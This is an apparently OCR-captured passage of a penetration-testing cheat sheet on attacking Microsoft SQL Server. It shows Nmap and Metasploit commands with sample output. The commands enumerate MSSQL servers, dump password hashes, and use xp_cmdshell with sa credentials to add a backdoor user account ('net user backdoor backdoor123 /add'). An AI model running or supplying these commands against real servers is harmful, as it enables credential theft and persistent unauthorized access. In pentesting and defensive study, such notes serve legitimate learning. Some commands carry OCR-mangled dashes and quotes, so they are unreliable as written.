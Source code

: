 I can look for user generated tables on those databases: 

```text
SQL> use volume 
[*] ENVCHANGE(DATABASE): Old Value: volume, New Value: volume 
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'. 
SQL> SELECT name FROM sysobjects WHERE xtype = 'U' 
name 
------------     
```

## Enumeration

### Nmap

Scan:

`nmap -sU --script=ms-sql-info 192.168.1.108` 

Dump hashes: 

`nmap -p1433 --script ms-sql-empty-password,ms-sql-dump-hashes <target>` 

Execute command: 

`nmap -Pn -n -sS –script=ms-sql-xp-cmdshell.nse <victim_ip> -p1433 –script-args mssql.username=sa,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd=”net user backdoor backdoor123 /add”`

### Metasploit

#### Find MSSQL servers: 

`msf > use auxiliary/scanner/mssql/mssql_ping` 

#### 

#### mssql\_enum  

The mssql\_enum is an admin module that will accept a set of credentials and query a MSSQL for various configuration settings. 

```text
msf auxiliary(mssql_enum) > run 
[*] Running MS SQL Server Enumeration... 
[*] Version: 
[*] Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86)  
[*] Oct 14 2005 00:33:37  
[*] Copyright (c) 1988-2005 Microsoft Corporation 
[*] Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2) 
[*] Configuration Parameters: 
[*] C2 Audit Mode is Not Enabled 
[*] xp_cmdshell is Not Enabled 
[*] remote access is Enabled 
[*] allow updates is Not Enabled 
[*] Database Mail XPs is Not Enabled 
[*] Ole Automation Procedures are Not Enabled 
[*] Databases on the server: 
[*] Database name:master 
[*] Database Files for master: 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\master.mdf 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\mastlog.ldf 
[*] Database name:tempdb 
[*] Database Files for tempdb: 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\tempdb.mdf 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\templog.ldf 
[*] Database name:model 
[*] Database Files for model: 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\model.mdf 
```